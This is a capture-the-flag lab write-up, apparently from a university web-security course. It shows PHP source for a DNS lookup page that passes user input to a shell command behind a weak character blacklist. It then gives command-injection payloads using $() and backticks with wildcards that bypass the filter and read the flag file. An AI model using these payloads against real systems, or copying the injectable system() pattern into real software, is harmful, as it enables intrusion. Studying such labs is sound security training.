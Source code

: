```yaml
---
title: Simple Web 0x10(Lab - DNS Lookup Tool | WAF)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x10(Lab - DNS Lookup Tool | WAF)
###### tags: `NTUSTWS` `CTF` `Web`

## Background
[2022/03/30 網頁安全](https://youtu.be/7b8uMzpCfug?t=3612)
[Command injection](https://lab.feifei.tw/practice/ci/l1.php)

## Source code
:::spoiler code
```php=
 <?php
isset($_GET['source']) and die(show_source(__FILE__, true));
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DNS Lookup Tool | WAF</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.3/css/bulma.min.css">
</head>

<body>
    <section class="section">
        <div class="container">
            <div class="column is-6 is-offset-3 has-text-centered">
                <div class="box">
                    <h1 class="title">DNS Lookup Tool 🔍 | WAF Edition</h1>
                    <form method="POST">
                        <div class="field">
                            <div class="control">
                                <input class="input" type="text" name="name" placeholder="example.com" id="hostname" value="<?= $_POST['name'] ?? '' ?>">
                            </div>
                        </div>
                        <button class="button is-block is-info is-fullwidth">
                            Lookup!
                        </button>
                    </form>
                    <br>
                    <?php if (isset($_POST['name'])) : ?>
                        <section class="has-text-left">
                            <p>Lookup result:</p>
                            <pre>
                            <?php
                            $blacklist = ['|', '&', ';', '>', '<', "\n", 'flag'];
                            $is_input_safe = true;
                            foreach ($blacklist as $bad_word)
                                if (strstr($_POST['name'], $bad_word) !== false) $is_input_safe = false;

                            if ($is_input_safe)
                                system("host '" . $_POST['name'] . "';");
                            else
                                echo "HACKER!!!";
                            ?>
                            </pre>
                        </section>
                    <?php endif; ?>
                    <hr>
                    <a href="/?source">Source Code</a>
                </div>
            </div>
        </div>
    </section>
</body>

</html> 
```
:::
It set some protection such as blacklist.

## Exploit
Use <font color="FF0000">**`$`** or **\`**</font> string to bypass blacklist
Payload: 
`'$(cat /fla*)'`
`'`cat /fl\*g\*`'`


Flag: FLAG{Y0U_$(Byp4ssed)\_th3\_\`waf\`}
## Reference